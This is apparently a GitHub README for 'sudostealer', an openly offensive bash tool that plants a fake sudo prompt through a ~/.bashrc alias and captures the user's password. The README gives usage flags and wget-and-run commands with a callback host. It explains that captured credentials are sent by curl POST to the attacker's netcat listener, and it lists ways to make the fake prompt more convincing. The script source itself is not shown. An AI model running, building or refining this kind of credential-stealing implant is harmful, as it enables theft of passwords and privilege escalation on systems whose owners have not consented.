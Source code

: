 # sudostealer

A bash script to steal the `sudo` password of a user when you have a shell (as that user), but no password.

---

__Usage:__

```bash
Usage: ./sudostealer.sh
	[-m method]      	alias, path, binary
	[-d droppath]    	path to drop script. must be writable
	[-p port]        	choose port. always HTTP traffic
	lhost            	host to callback to
```

__Example__:

```
wget https://raw.githubusercontent.com/543hn/sudostealer/master/sudostealer.sh
chmod +x ./sudostealer.sh
./sudostealer.sh 10.10.10.10 -p 80
```

__Requirements__ on `RHOST`:

- `bash`, `sed`, `curl`
- A shell that reads `~/.bashrc`

__Requirements__ on `LHOST`:

- A `netcat` listener on port `80` (or whatever port set with `-p`)

__Screenshots__:

Generating/dropping:

![MainScreen](screenshots/main.png)

Getting a callback:

![Example](screenshots/example.png)

```
This idea was given to me by rewzilla (github.com/rewzilla)
```

---

__How does it work?__

1. Attacker gains shell access.
2. Run this script (with any options) on the `RHOST`, then delete it.
3. Set up a `nc` listener on `LHOST` on `80` or whichever port you set.
   1. Script inserts `sudo` alias into `~/.bashrc` to be run the next time a terminal opens.
   2. Upon running, script fakes `sudo` prompts.
      1. If incorrect password, continue.
      2. If correct password, break.
4. Wait for user to open a new terminal and types `sudo`.
5. Get sent creds through `POST` data with `curl`.
6. Script deletes itself, removes alias, `exec bash`es.

---

If anyone wants to _Hacktober_ some stuff, __todo__:

- Handle method input, create new methods for dropping (see comments in script)
- Sanitize/verify CLI input (`getopts`)
- Don't add 50 `alias`es if the script is run multiple times
- Fix sudo prompt realness (don't allow `CTRL-c` to kill `sleep`-- `trap` doesn't catch it)
  - Pressing enter on a blank password, then immediately CTRL-c shouldn't exit
- Find a way to force re-sourcing `~/.bashrc` so you don't have to wait for a new terminal
